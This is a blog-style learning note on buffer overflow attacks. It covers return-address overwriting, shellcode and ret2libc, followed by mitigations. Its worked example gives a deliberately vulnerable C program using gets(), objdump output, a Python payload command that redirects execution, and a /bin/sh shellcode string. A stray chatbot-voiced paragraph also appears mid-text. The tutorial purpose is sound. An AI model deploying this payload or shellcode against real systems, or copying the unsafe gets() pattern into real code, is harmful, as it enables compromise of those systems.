 ```yaml
---
title: Buffer Overflow Attacks
date: 2024-03-07 21:00:00 UTC
categories: [ (CS) Learning Note, Software Security and Safety]
tags: [software engineering, software security]
pin: false
---
```


---

<center><font size='5'> Contents </font></center>

---

<!-- TOC -->
  * [What is a Buffer Overflow Attack?](#what-is-a-buffer-overflow-attack)
    * [Why Buffer Overflow Attacks are Feasible](#why-buffer-overflow-attacks-are-feasible)
  * [Some Types of Buffer Overflow Attacks](#some-types-of-buffer-overflow-attacks)
    * [Changing the Program Return Address](#changing-the-program-return-address)
    * [Shellcoding](#shellcoding)
    * [Return-to-Library (Ret2Libc)](#return-to-library-ret2libc)
  * [Example of Changing the Program Return Address](#example-of-changing-the-program-return-address)
  * [How to Avoid Buffer Overflow Attacks](#how-to-avoid-buffer-overflow-attacks)
    * [Input Validation](#input-validation)
    * [Use Safe Functions](#use-safe-functions)
    * [Stack Canaries](#stack-canaries)
    * [Address Space Layout Randomization (ASLR)](#address-space-layout-randomization-aslr)
    * [Non-Executable Stack](#non-executable-stack)
<!-- TOC -->

---

## What is a Buffer Overflow Attack?

A buffer overflow attack occurs when more data is written to a buffer than it can hold. Since buffers are allocated with a finite size in memory, surpassing this limit can overwrite adjacent memory locations. This vulnerability can lead to arbitrary code execution, system crashes, and a breach of system security.

### Why Buffer Overflow Attacks are Feasible

Buffer overflow attacks are feasible due to inadequate input validation and improper memory management in software. When an application fails to check the length of input, an attacker can deliberately supply excessive data to overflow the buffer, allowing them to manipulate the execution flow of the application.

## Some Types of Buffer Overflow Attacks

### Changing the Program Return Address

This classic buffer overflow attack involves overwriting the return address of a function with an address that points to malicious code. When the function returns, the processor jumps to the injected address, executing the attacker's code.

### Shellcoding

Shellcoding is a technique where the attacker injects a payload, known as a shellcode, into the memory. The shellcode is designed to spawn a shell or execute commands, giving the attacker control over the system. The attack is successful when the overflow manipulates the program's execution flow to jump to this shellcode.

### Return-to-Library (Ret2Libc)

The Ret2Libc attack circumvents the execution of arbitrary code by instead redirecting the execution flow to existing library functions, such as the system function in the C standard library (libc). This method is particularly effective when security mechanisms prevent executing code on the stack, as it leverages the legitimate code of the program’s own process.


Certainly, let's delve into a concrete example of a buffer overflow attack, specifically one that changes the program's return address to execute arbitrary code. This type of attack is a classic demonstration of exploiting a buffer overflow to gain unauthorized access or execute malicious code. For clarity, we'll use a hypothetical but realistic scenario based on a C program. It's important to note that executing or deploying this code on any system without authorization is illegal and unethical. This example is for educational purposes only.

## Example of Changing the Program Return Address

Imagine a simple C program which aims to simply get a string. This program, however, contains a critical vulnerability due to its unsafe use of the `gets` function.

```c
#include <stdio.h>
#include <string.h>

void danger()
{
  system("/tmp/danger.sh");
}

int main(int argc, char **argv)
{
  char buffer[100];
  gets(buffer); // Unsafe use of gets(), which doesn't check input size
}
```

An attacker can exploit this vulnerability to overwrite the stack, including the return address of `main()`, to point to the address of a malicious function, such as `danger()`. **In this way, although the malicious function `danger()` is never called, it will be executed.** This is typically done in steps:

- **Decompile the target program**. An attacker can obtain the assembly code of a program by using the decompile command `objdump -d example` to know the rough structure of the program and the return address of each function. As shown below, the address of `danger()` can be known as `0804849b` .

```
...
0804849b <danger>:
 804849b:       55                      push   %ebp
 804849c:       89 e5                   mov    %esp,%ebp
 804849e:       83 ec 08                sub    $0x8,%esp
 80484a1:       83 ec 0c                sub    $0xc,%esp
 80484a4:       68 90 85 04 08          push   $0x8048590
 80484a9:       e8 c2 fe ff ff          call   8048370 <system@plt>
 80484ae:       83 c4 10                add    $0x10,%esp
 80484b1:       90                      nop
 80484b2:       c9                      leave
 80484b3:       c3                      ret

080484b4 <main>:
 80484b4:       8d 4c 24 04             lea    0x4(%esp),%ecx
 80484b8:       83 e4 f0                and    $0xfffffff0,%esp
 80484bb:       ff 71 fc                pushl  -0x4(%ecx)
 80484be:       55                      push   %ebp
 80484bf:       89 e5                   mov    %esp,%ebp
 80484c1:       51                      push   %ecx
 80484c2:       81 ec 84 00 00 00       sub    $0x84,%esp
 ...
```

- **Creating the Input**. The payload would consist of:
  - 100 bytes to fill the buffer.
  - 4 bytes to overwrite the saved frame pointer (on architectures where this is required).
  - the new return address `0804849b`, pointing to the location of the malicious function `danger()`.

- **Execution**. When `gets()` reads this specially crafted input, it causes a buffer overflow, overwriting the return address on the stack. When `main()` returns, instead of returning to `main()`, the CPU jumps to the malicious function `danger()`.
  - As mentioned above, this can be done by executing the following command: `python -c 'print "A" * 104 + "\x9b\x84\x04\x08"' | . /example`

- **Inject Shellcode or Ret2Libc**. Attackers can also perform more malicious operations by adding shellcode to the input or finding ways to execute existing code in memory (e.g., Return-to-Libc attack).

**Shellcode example:**

This is the shellcode of `/bin/sh`, which will spawn a shell when it is injected into memory for execution

``` 
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb
0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

> With this example, we can understand exactly how buffer overflow attacks work. But Nowadays, due to continuous optimisation of compilers, the above attacks are generally not easily succeeded.
{: .prompt-tip }


## How to Avoid Buffer Overflow Attacks

Mitigating buffer overflow vulnerabilities requires a proactive approach to secure coding and system configuration. Here are key strategies for prevention:

### Input Validation

Ensure all input is properly validated for length and content before processing. This simple step can prevent oversized data from causing a buffer overflow.

### Use Safe Functions

Avoid using unsafe functions known to be vulnerable to buffer overflows, such as `strcpy()` in C. Instead, use safer alternatives like `strncpy()`, which limits the amount of data copied to a buffer.

### Stack Canaries

Stack canaries are a security mechanism that places a small, random value (the "canary") between the buffer and control data on the stack. A buffer overflow that overwrites the return address will also overwrite the canary. The integrity of the canary is checked before a function returns; if it has changed, the program aborts, preventing the overflow from hijacking the execution flow.

### Address Space Layout Randomization (ASLR)

ASLR randomly arranges the address space positions of key data areas of a process, including the base of the executable and the positions of the stack, heap, and libraries. This randomness makes it more difficult for attackers to predict the memory addresses needed for exploits like Ret2Libc.

### Non-Executable Stack

Configuring the stack as non-executable prevents the execution of any code residing in the stack, thwarting shellcoding attacks. This is often implemented through hardware support, such as the NX bit, or software solutions like ExecShield.
